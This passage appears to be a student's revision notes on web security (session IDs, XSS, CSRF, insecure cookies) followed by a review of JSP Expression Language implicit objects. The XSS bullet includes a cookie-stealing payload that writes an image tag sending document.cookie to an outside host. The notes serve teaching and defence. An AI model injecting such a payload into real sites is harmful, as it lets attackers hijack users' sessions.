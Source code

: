    * Prevention
        * disable embedding session IDs in URLs
        * change session ID after login
    
* Cross-Site Scripting (XSS)
    * Cross-site scripting (XSS) is the ability to get a website to display user-supplied content laced with malicious HTML / JavaScript.
    * Attacker can add some bad code into website, Suppose user click one button the code will run, for example use post image use `document.write("<img src='www.abc.com?id='+document.cookie/>");` , the attacker change the code to `document.write("<img src='www.abc.com?id=123'/>");`
        * user cannot see true image or make true request
       
    * Prevention
        * Flagging all your cookies with the **HttpOnly** attribute.
    
* Cross-Site Request Forgery (CSRF)
    * attacker find the form request url to remove post by id, such as `www.abc.com/removePost?id=1`, attacker lure user to visit other page But actually it is call removePost url. When user clicked the post will be removed.
    
    * Prevention
        * use a random value of synchronizer token and put into html form, in server side need verify the token
        * The value of a synchronizer token is known as a nonce (number-usedonce).
        
* Insecure cookies 
    * Man-in-the-middle attack (MitM attack)
        * An attacker can see all information of the insecure cookies between the client and server.
    
        * Prevention
            * use HTTPS
                * Used only for protecting data sensitive enough to warrant the performance overhead and hassle of securing every request with HTTPS.
                    
-------

## Review: Lecture 5

> **Apply:** EL

* EL implicit objects
    ![](./media/15487344932552/15512599333532.jpg)
    1. **param & paramValues**
        1. Access user request parameter(e.g get method)
        2. paramValues: Array 
    2. **header & headerValues**
        1. HTTP request header values
        2. e.g "User-Agent"
    3. **initParam**
        1. access context initialization parameters (set in web.xml)
    4. **cookie**
        1. access cookie
    5. **pageScope, requestScope, sessionScope, applicationScope**
        1. https://blog.csdn.net/qq_19865749/article/details/70046038
        2. 如果無話用邊個Scope, 順序搵
    6. **pageContext**:
        1. access current page information